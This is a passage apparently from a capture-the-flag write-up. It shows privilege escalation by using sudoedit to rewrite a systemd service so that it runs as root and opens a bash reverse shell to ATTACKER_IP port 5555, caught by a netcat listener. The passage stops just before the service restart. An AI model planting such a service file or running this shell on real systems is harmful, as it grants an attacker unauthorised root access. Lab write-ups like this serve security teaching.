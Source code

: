 
*`sudoedit` allows users to edit files with super user privileges.*

---

Hence, we can edit **duckyinc.service** with:

```
sudoedit /etc/systemd/system/duckyinc.service
```

![screenshot20](../assets/images/revenge/screenshot20.png)

We then replace the file with the following code:

```
[Unit]
Description=abc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"

[Install]
WantedBy=multi-user.target
```

Now, when **duckyinc.service** is started, a reverse shell connection will be opened back to our local machine. Since the service is started as root, the reverse shell will be a privileged as well.

With the file saved, we make sure to start a netcat listener on our local machine.

Then, we open the reverse shell by **restarting** the duckyinc service (as it is already running):

